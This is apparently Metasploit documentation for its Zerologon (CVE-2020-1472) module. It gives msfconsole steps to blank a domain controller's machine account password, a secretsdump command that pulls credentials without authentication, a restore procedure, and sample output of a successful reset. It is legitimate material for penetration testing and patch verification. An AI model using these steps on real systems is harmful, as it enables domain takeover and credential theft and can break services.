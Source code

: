 ## Vulnerable Application
A vulnerability exists within the Netlogon authentication process where the security properties granted by AES are lost
due to an implementation flaw related to the use of a static initialization vector (IV). An attacker can leverage this
flaw to target an Active Directory Domain Controller and make repeated authentication attempts using NULL data fields
which will succeed every 1 in 256 tries (~0.4%). This module leverages the vulnerability to reset the machine account
password to an empty value, which will then allow the attacker to authenticate as the machine account. After
exploitation, it's important to restore this password to it's original value. Failure to do so can result in service
instability.

Before using this module and changing the Domain Controller's machine account password, it is **highly** recommended to
have [impacket](https://github.com/SecureAuthCorp/impacket) available to recover the original value for restoration. The
version of impacket must have been updated on or since September 15th, 2020 to incorporate the changes introduced in
commit [`78e8c8e4`](https://github.com/SecureAuthCorp/impacket/commit/78e8c8e41b3f163f1271a01ce3f2bf3bb880f687) which
altered the behavior of the `example/secretsdump.py` utility to display the plaintext value of the machine account
password. Users can use this value along with the `RESTORE` action provided by this module to restore the machine
account password to it's original value.

## Verification Steps

1. Exploit the vulnerability to set the machine account password to a blank value
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2020_1472_zerologon`
    1. Set the `RHOSTS` and `NBNAME` values
    1. Run the module and see that the password was set to a blank value
1. Recover the original machine account password using impacket and secretsdump
    1. Run `examples/secretsdump.py -no-pass NBNAME$@RHOST`
        * **Note:** The machine name (`NBNAME` from the module) must end with the dollar sign character (`$`)
    1. Search for the password in the output (`NBNAME$:plain_password_hex:`)
1. Restore the original machine account password
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2020_1472_zerologon`
    1. Set the action to `RESTORE`
    1. Set the `RHOSTS`, `NBNAME` and `PASSWORD` values
    1. Run the module and see that the original value was restored

## Options

### NBNAME

The NetBIOS name of the target domain controller. You can use the `auxiliary/scanner/netbios/nbname` module to obtain
this value. If this value is invalid the module will fail when making a Netlogon RPC request.

### PASSWORD

The hex value of the original machine account password. This value is typically recovered from the target system's
registry (using a tool like secretsdump) after successfully setting the value to blank within Active Directory using
this module and the default `REMOVE` action.

This value is only used when running the module with the `RESTORE` action.

## Scenarios

### Windows Server 2019

```
[*] 192.168.159.10:0 - Connecting to the endpoint mapper service...
[*] 192.168.159.10:49667 - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.10[49667] ...
[*] 192.168.159.10:49667 - Bound to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.10[49667] ...
[+] 192.168.159.10:49667 - Successfully authenticated
[+] 192.168.159.10:49667 - Successfully set the machine account (WIN-3MSP8K2LCGC$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
[*] Auxiliary module execution completed
```

